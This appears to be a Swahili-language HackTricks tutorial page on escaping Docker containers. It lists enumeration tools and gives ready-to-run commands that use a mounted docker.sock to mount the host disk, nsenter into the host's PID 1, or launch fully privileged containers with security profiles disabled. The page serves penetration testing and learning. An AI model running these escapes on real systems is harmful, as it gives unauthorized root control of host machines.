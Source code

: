 # Kuvuja kwa Docker / Kuongeza Mamlaka

<details><summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary></details>

<figure><img src="../../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Tumia [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) kujenga na **kutumia workflows** kwa kutumia zana za **jamii ya juu zaidi** ulimwenguni.\
Pata Ufikiaji Leo:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Uchunguzi na Kutoroka Kiotomatiki

* [**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS): Inaweza pia **kuchunguza kontena**
* [**CDK**](https://github.com/cdk-team/CDK#installationdelivery): Zana hii ni **ya manufaa sana kuchunguza kontena uliomo hata jaribu kutoroka kiotomatiki**
* [**amicontained**](https://github.com/genuinetools/amicontained): Zana ya kufaa kupata mamlaka ambayo kontena ina ili kupata njia za kutoroka
* [**deepce**](https://github.com/stealthcopter/deepce): Zana ya kuchunguza na kutoroka kutoka kwa kontena
* [**grype**](https://github.com/anchore/grype): Pata CVE zilizomo kwenye programu iliyosakinishwa kwenye picha

## Kutoroka kwa Socket ya Docker Iliyowekwa

Ikiwa kwa njia fulani unagundua kuwa **socket ya docker imeunganishwa** ndani ya kontena ya docker, utaweza kutoroka kutoka humo.\
Hii kawaida hutokea kwenye kontena za docker ambazo kwa sababu fulani zinahitaji kuunganisha kwenye daemini ya docker kutekeleza vitendo.
```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```
Katika kesi hii unaweza kutumia amri za kawaida za docker kuwasiliana na docker daemon:
```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```